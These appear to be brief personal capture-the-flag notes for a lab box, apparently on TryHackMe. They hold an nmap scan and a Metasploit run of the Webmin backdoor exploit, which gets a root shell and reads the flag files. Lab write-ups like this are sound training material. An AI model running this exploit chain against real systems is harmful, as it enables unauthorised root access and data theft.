 nmap -sV -sC -vv -oA scans/initial 10.10.79.75

msfconsole
	search webmin_backdoor
	use 0
		show options
		set RHOSTS 10.10.79.75
		set LHOST tun0		# tun0 vs eth0, primeiro estar dentro da rede, por VPN (ver VPN-THM)
		set SSL true
		run
			whoami
			cat /root/root.txt
			cat /home/dark/user.txt
